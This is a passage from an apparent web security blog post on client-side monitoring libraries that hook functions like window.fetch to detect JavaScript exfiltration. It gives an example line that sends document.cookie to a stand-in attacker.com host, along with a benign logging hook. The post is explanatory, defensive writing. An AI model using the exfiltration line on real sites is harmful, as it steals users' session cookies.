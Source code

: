 Now this step of the evolution brings us to a point where CSP can't necessarily help us address the issue.  
In the vulnerability disclosure article I wrote
[Chromium Based Browsers Full CSP Bypass Zero Day (CVE-2020-6519)](https://weizman.github.io/?csp-bypass-vul)
I talk more about why is that.

So web security companies who saw that coming, began working on client side based solutions, by providing better
monitoring tools for javascript activity in the browser.

The approach in general is "we can offer a javascript third party library that once installed
in the website, monitors the activity of the different code that is being executed, and later on we can tell
which of these activities were illegitimate, if any".

The idea of monitoring javascript activity in the website is accomplished by hooking (overriding) functions that
are considered by the solution provider as "sensitive".

So for example, we can tell for sure that no matter what the attacker wishes to accomplish by executing javascript code
in the website, they would probably want to exfiltrate the result of
their execution somehow (e.g. stealing cookies and then sending them to your evil server):

```javascript
// pseudo code
window.fetch('https://attacker.com/stolen-cookies?data=' + document.cookie);
```

So naturally, hooking `window.fetch` function is a good idea, because when the attacker uses `fetch` API to exfiltrate
the stolen data, the hook can monitor the action and catch the malicious activity in action:

```javascript
// pseudo code
const realFetch = window.fetch;
window.fetch = function(input, init) {
    console.log('attempt to use fetch API with the following arguments: ', input, init);
    return realFetch.call(this, input, init);
}
```

This technique is well known in the web security industry, as it serves correct implementations of similar security solutions.
This technique serves not only security solutions, but many other industries too.

You can use this technique to create and offer third party javascript libraries that:
* hook all network communication attempts, log them and present them to the customer (e.g. [logrocket](https://logrocket.com/));
* track user activity and provide the collected data as a service to the customer (e.g. [convizit](https://convizit.com/));
* hook and monitor sensitive functions in the browser that might uncover malicious unwanted activity in the website (e.g. [perimeterx](https://perimeterx.com/));

**But they're all lacking an important component in their solutions, especially the web security ones,
which allows attackers to easily bypass them and effectively cancel their solution entirely**
